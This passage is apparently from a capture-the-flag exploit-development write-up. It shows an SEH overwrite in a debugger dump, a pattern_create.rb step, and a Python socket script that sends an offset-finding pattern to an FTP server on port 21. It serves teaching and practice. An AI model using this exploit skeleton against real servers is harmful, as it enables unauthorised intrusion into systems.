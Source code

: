 ``` txt
00B5FFD4   41414141  AAAA
00B5FFD8   41414141  AAAA
00B5FFDC   41414141  AAAA  Pointer to next SEH record
00B5FFE0   41414141  AAAA  SE handler
00B5FFE4   41414141  AAAA
00B5FFE8   41414141  AAAA
00B5FFEC   41414141  AAAA
00B5FFF0   41414141  AAAA
00B5FFF4   41414141  AAAA
00B5FFF8   41414141  AAAA
00B5FFFC   00414141  AAA.
```

What's interesting here is that a `NULL` byte is being written to memory at `00B5FFFF`, just something to bear in mind later on.

## Controlling EIP

The next thing to do is to start crafting an exploit, and in order to execute our own code we need to control `EIP`. First we need to know the offset of the bytes that overwrite `EIP` and for this we'll use the tried and true `pattern_create.rb` along with its cohort `pattern_offset.rb`. However, I'm not a fan of having massive exploit payloads directly pasted into my source code, so instead I read the files in. We create the pattern file like so:

``` txt
$ pattern_create.rb 356 > pattern.txt
```

We then begin our exploit with a simple shell that looks like this:

``` python
#!/usr/bin/python

import socket

host = '10.1.10.34'
port = 21

def read_file(path):
  with open(path, 'r') as f:
    return f.read()

def pwn(payload):
  s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
  s.connect((host, port))
  s.recv(2048)
  s.send(payload)
  s.shutdown
  s.close

print "[*] Attacking {0}:{1} ...".format(host, port)
command = read_file('pattern.txt')
print "[*] Command {0} chars...".format(len(command))
pwn(command)
```


  [OSCE]: http://buffered.io/posts/osce-and-me/
  [ExploitDB]: http://exploit-db.com/
  [Corelan]: https://www.corelan.be/
  [Fuzzy Security]: http://www.fuzzysecurity.com/
  [CTF]: https://en.wikipedia.org/wiki/Capture_the_flag
  [ShellStorm]: http://www.shell-storm.org/
  [Ammar]: http://clog.ammar.web.id/2013/06/idsecconf-2013-ctff-offline-challenge.html
  [idsecconf]: http://2013.idsecconf.org/
  [Meterpreter]: https://github.com/rapid7/meterpreter
  [Immunity Debugger]: https://www.immunityinc.com/products-immdbg.shtml
  [Mona.py]: http://redmine.corelan.be/projects/mona
  [Corelanc0d3r]: https://twitter.com/corelanc0d3r
  [muts]: https://twitter.com/kalilinux